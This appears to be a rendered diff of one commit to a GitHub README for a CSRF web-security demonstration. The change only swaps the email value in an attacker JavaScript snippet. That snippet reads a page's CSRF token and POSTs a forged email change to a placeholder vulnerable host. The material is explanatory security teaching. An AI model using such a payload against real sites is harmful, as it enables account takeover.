

Before and after one commit to Visco01/CSRF-Web-Security, a Markdown page: README.md, the part around one of its changes. GitHub-like rendering.

```diff
--- a/README.md
+++ b/README.md
@@ -67,7 +67,7 @@ The attacker's script consists of the following steps:
         let csrf = document.getElementsByName("csrf_token")[0].value;
         let data = new FormData();
         data.append('csrf_token', csrf);
-        data.append('email', 'lol@gmail.com');
+        data.append('email', 'attacker@gmail.com');
         var xhttp = new XMLHttpRequest();
         xhttp.open("POST", "http://www.vulnerable.com:5000/change-email", false);
         xhttp.send(data);
```
Also changed, not shown: other parts of README.md (+3 -3 lines).
